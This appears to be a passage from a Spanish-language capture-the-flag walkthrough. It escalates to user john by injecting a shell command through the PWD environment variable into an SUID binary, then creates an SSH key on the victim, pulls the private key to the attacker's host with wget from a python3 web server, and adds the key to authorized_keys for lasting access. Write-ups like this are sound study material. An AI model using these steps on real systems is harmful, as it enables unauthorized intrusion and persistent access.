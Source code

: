 Y vemos tambien el siguiente archivo que tiene el permiso `SUID` del usuario `john` por lo que si lo ejecutamos, lo estariamos haciendo como ese usuario...

```
-rwsr-xr-x 1 john john 8632 Dec  4  2019 itseasy
```

Al ver esto, lo que vamos hacer es lo siguiente...

```shell
export PWD=\$\(/bin/bash\)
```

```shell
./itseasy
```

Con esto ya seriamos el usuario `john`...

Veremos que no podemos casi hacer ningun comando, por lo que nos crearemos una `id_rsa` con este usuario para meternos por `ssh`...

```shell
ssh-keygen -t rsa -b 4096
```

Le damos todo a `Enter`...

```
Enter passphrase (empty for no passphrase): 
Enter same passphrase again:
```

Y una vez creado el `.ssh/` iremos a el...

```shell
cd /home/john/.ssh/
```

Abriremos un servidor de `python3` para poder pasarnos el `id_rsa`...

```shell
python3 -m http.server
```

> Host

```shell
wget http://<IP>:8000/id_rsa
```

Una vez pasado haremos lo siguiente...

```shell
chmod 600 id_rsa
```

En la maquina victima creamos el archivo `authorized_keys`...

```shell
cat ~/.ssh/id_rsa.pub >> ~/.ssh/authorized_keys
```

Y en nuestro `host` entramos ya por `ssh` utilizando el `id_rsa`...
